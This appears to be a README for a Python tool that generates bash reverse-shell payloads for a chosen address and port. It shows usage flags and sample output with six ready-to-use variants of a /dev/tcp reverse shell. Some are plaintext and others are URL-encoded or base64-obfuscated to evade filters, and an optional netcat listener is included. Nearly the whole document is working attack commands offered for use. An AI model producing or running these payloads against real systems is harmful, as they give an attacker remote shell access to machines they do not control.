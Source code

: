 # Simple generator reverse shell for bash

**Description**

Simple generator reverse shell payload for bash in python

Usage:
```
$ ./genRevShell.py [flags]
```
Flags:
```
-a, --addr    Address for reverse connect
-p, --port    Port for reverse connect, 9001 by default
-r            Run the netcat on localhost
```
Example:
```
$ ./genRevShell.py -a 10.10.14.128 -r
```
Output:
```
[*] Input address is 10.10.14.128
[*] Input port is 9001

[1] The bash payload in plaintext:

bash  -c 'bash -i >& /dev/tcp/10.10.14.128/9001 0>&1'

[2] The bash payload in URL(plaintext):

bash%20%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.128%2F9001%200%3E%261%27

[3] The bash payload in Base64():

echo YmFzaCAgLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTI4LzkwMDEgMD4mMSc=|base64 -d|bash -i

[4] The bash payload in URL(Base64()):

echo%20YmFzaCAgLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTI4LzkwMDEgMD4mMSc%3D%7Cbase64%20-d%7Cbash%20-i

[5] The bash payload in Base64() with no spaces:

{echo,YmFzaCAgLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTI4LzkwMDEgMD4mMSc=}|{base64,-d}|{bash,-i}

[6] The bash payload in URL(Base64()) with no spaces:

%7Becho%2CYmFzaCAgLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTI4LzkwMDEgMD4mMSc%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D

[+] Run the netcat on localhost on 9001:

Listening on 0.0.0.0 9001
```
My favorite choice is **[3]** payload :)

